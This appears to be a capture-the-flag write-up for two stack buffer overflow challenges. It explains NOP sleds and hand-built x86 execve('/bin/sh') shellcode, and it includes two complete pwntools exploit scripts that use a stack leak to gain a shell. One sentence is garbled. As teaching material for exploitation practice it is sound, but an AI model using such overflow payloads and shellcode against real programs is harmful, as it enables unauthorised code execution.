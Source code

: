 # 3_im_lost/3_im_lost_again

Analysis of `3_im_lost` reveals a `gets` so this is an obvious buffer overflow challenge.\
From previous challenges, we saw that there was a win function which we would return into because it had a `system("/bin/sh")` call.

With further analysis, we can not find such a fulike we'd go out nction. So what do we do?

We return into some instruction which does the same as calling `execve("/bin/sh")`, but how?\
We return into what is called a NOP sled, NOP being the opcode `0x90` which means 'no operation' or nop for short.\
A NOP sled is a long string of `nop`s, although we can return into the start of our shellcode, it isn't always the best solution as there may be some issues with alignment or issues being precise.\
Shellcode is code, which in our case is written in hex, and when executed can run anything we want like `system("/bin/sh")`.

Luckily for us, `pwntools` has a function which converts x86 assembly code to its corresponding opcodes.\
The shellcode will be executed once returned into.\
So we have to find a buffer that we control, insert the shellcode into said buffer, and return into it or into the section that we control, typically inside or outside the buffer if the shellcode won't fit inside.

Scenario 1: Buffer fits shellcode

| buffer                          | retn addr      |
| ------------------------------- | -------------- |
| \x90\x90...shellcode...\x90\x90 | addr of buffer |

Scenario 2: Buffer is too small for the shellcode

| buffer    | retn addr             | memory after retn addr          |
| --------- | --------------------- | ------------------------------- |
| AAA...AAA | Address after the esp | \x90\x90...shellcode...\x90\x90 |

Note that the `\x90` paddings are optional, it just helps us in the case where the memory leak we get or calculate doesn't bring us to where we exactly want.

As for the shellcode, we look at https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit for references to the syscalls (x86 asm) we'll be using, in our case execve would be a nice system call to use as we can execve a /bin/sh session.

1. Zero out the eax register
2. Push a 0 into the stack by pushing eax, this is to "clear" the `esp` register
3. Push `hs//` then push `nib/`, pushing them in little endian form will make them come out as `/bin//sh` in `esp`
4. Move the pushed `/bin//sh` into the `ebx` register as that is what will be taken as the argument
5. According to the docs linked above, `ebx`, `ecx`, and `edx` are used as the arguments for the syscall, but we're only interested in `ebx` being `/bin//sh`, so let's clear `ecx` and `edx`.
6. Finally, give `eax` the number that corresponds to the syscall `execve` and invoke the syscall by running `int 0x80`.

Once you have crafted the `execve` payload, you can incorporate that into your NOP sled accordingly as described by the two scenarios above.

<details>
  <summary>My Solutions</summary>

```python
# 3_im_lost
from pwn import *

#context.log_level = "debug"
remote_conn = False

IP = ""
PORT = ""
FILENAME = "./3_im_lost"

if remote_conn:
    p = remote(IP, PORT)
    elf = ELF(FILENAME)
else:
    p = process(FILENAME)
    elf = p.elf

p.recvuntil("live at ")
stack_leak = int(p.recvline()[:-1], 16)
log.info(hex(stack_leak))

shellcode = asm('''
xor eax, eax
push eax

push 0x68732f2f
push 0x6e69622f
mov ebx, esp
xor ecx, ecx
mov edx, ecx

mov eax, 0xb
int 0x80
''')

payload = b"A" * 20 + pack(stack_leak + 25) + b"\x90"*100 + shellcode
p.sendlineafter("/No", payload)

p.interactive()
```

```python
# 3_im_lost_again
from pwn import *

#context.log_level = "debug"
remote_conn = False

IP = ""
PORT = ""
FILENAME = "./3_im_lost_again"

if remote_conn:
    p = remote(IP, PORT)
    elf = ELF(FILENAME)
else:
    p = process(FILENAME)
    elf = p.elf

p.recvuntil("live at ")
stack_leak = int(p.recvline()[:-1], 16)
log.info(hex(stack_leak))

shellcode = asm('''
xor eax, eax
push eax

push 0x68732f2f
push 0x6e69622f
mov ebx, esp
xor ecx, ecx
mov edx, ecx

mov eax, 0xb
int 0x80
''')

log.info(str(len(shellcode)))

payload = b"\x90" * 200 + shellcode + b"\x90" * 190 + pack(stack_leak)
pause()
p.sendlineafter("/No", payload)

p.interactive()
```

</details>

